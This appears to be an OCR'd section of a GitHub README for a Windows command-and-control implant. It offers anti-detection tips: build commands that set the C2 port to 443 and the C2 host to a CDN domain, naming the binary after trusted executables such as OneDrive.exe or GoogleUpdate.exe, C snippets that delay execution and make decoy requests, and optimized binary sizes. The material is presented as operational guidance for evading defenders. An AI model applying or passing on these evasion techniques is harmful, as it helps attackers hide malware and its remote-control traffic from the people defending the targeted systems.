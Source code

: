 
## 🛡️ Anti-Detection Tips

### 1. **Use HTTPS (Port 443)**
```bash
C2_PORT=443 bash build_trusted_windows.sh
```
- Blends with normal traffic
- Less suspicious than high ports

### 2. **Use CDN/Cloud Domains**
```bash
C2_HOST=cdn.cloudflare.com bash build_trusted_windows.sh
```
- Looks like legitimate cloud traffic
- Harder to block

### 3. **Match Target Environment**
If target uses:
- **Microsoft 365** → OneDrive.exe
- **Google Workspace** → GoogleUpdate.exe  
- **Adobe Products** → AdobeARM.exe

### 4. **Delay Execution**
Add to C code (in main.c):
```c
// Sleep 2 minutes before connecting
Sleep(120000);
```

### 5. **Add Legitimate Behavior**
```c
// Do something innocent first
download_file("https://www.microsoft.com/robots.txt");
// Then connect to C2
```

---

## 📊 Size Comparison

### Without Optimization:
```
~200 KB - Basic compiled binary
```

### With Optimization (Current):
```
~50-80 KB - Stripped + optimized
```
